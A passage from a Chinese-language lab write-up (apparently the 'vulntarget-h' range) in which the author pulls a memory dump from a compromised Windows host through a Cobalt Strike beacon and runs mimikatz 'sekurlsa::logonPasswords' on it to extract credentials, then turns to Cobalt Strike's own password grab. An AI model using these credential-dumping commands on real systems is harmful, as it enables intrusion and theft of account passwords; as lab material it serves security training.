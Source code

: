 + 下载dmp文件。

```bash
beacon> download 1.dmp
[*] Tasked beacon to download 1.dmp
[+] host called home, sent: 13 bytes
[*] started download of C:\phpstudy_pro\WWW\1.dmp (46832222 bytes)
```

+ 使用`mimikatz`读取密码。

```bash
──(kali㉿kali)-[~/Desktop]
└─$ wine /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "sekurlsa::minidump e723ff153" "sekurlsa::logonPasswords full" exit
0040:err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
>>> INIT of 'kerberos' module failed : c0000001
0050:err:ole:start_rpcss Failed to open RpcSs service

mimikatz(commandline) # sekurlsa::minidump e723ff153
Switch to MINIDUMP : 'e723ff153'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'e723ff153' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Local LSA library failed

mimikatz(commandline) # exit
Bye!
```

+ 通过上方的返回结果应该是给杀毒拦截了。

+ 尝试使用CS抓取明文密码功能发现可以直接抓到。

![Screenshot_2022-07-02_23-43-19.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_23-43-19.png)
